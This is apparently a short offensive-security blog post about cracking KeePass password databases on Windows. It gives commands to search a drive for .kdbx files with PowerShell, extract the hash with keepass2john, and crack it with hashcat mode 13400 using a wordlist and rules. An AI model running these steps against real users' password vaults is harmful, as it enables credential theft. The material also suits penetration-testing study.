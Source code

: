```yaml
---
layout: post
title: Windows Password Managers
titledate: 09/10/23
tags: ["infosec","offsec", "password"]
---
```


we can crack windows password manager database hashes

if the user uses a manager like keypass we can do a search to see what extension is being used to store the passwords in the database

then use powershell to search for it

    $ Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

we can use john the ripper's keeppass2john script to format the database

    $ keepass2john Database.kdbx > keepass.hash

john the ripper adds the username Database to the keepass hash file but we will use hashcat so we can remove this

to show the correct mode of hashcat to use 

    $ hashcat --help | grep -i "KeePass"

displays 13400 for keepass

and finally crack it

    $ hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force